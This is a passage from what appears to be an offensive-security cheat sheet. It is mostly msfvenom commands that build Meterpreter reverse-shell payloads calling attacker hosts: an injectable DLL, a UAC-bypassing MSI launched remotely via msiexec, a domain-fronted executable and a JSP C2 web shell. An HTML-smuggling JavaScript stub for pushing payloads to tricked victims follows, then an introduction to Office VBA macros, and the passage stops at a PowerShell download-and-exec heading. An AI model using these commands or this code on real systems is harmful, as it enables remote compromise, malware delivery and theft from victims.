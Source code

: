 ```
# dll injection
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LHOST=443 -f dll -o met.dll

# no uac msi - launch remote- msiexec /qn /i http://<attacker>/payload.msi
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 EXITFUNC=thread -f msi-nouac -o meterp64-nouac.msi 

# domain fronting
msfvenom -p windows/x64/meterpreter_reverse_https HttpHostHeader=cdn123.vaultcdn.com LHOST=good.com LPORT=443 -f exe > https-df.exe

# c2 web shell
msfvenom -p generic/custom PAYLOADFILE=bin/meterp-https-x64.bin LHOST=10.10.14.4 LPORT=443 -f jsp -o test.jsp -a x64 --platform windows
```

#### Linux Payload Generation

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.49.83 LPORT=80 PrependFork=true -f c
```

### Initial Compromise

#### HTML Smuggling

Can be used to force download after coercing victim to visit maliciou page. Note, victim is still required to run the downloaded payload manually. 

Base64 encode the malicious file and paste it into the following JavaScript. Then host the file and trick victim into visiting page. 

[Full Source](../src/misc/Stub-HtmlSmuggling.html)

```
var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = fileName;
a.click();
window.URL.revokeObjectURL(url);
```

#### VBA

Microsoft Office products such as Excel and Word can be exploited to execute arbitrary VBA via document Macros. 

**Important** When creating a new macro, ensure to change the "Macros in" value to "this document" to ensure the macro is embedded into the document even on another system. 

##### Office VBA PowerShell Download & Exec File
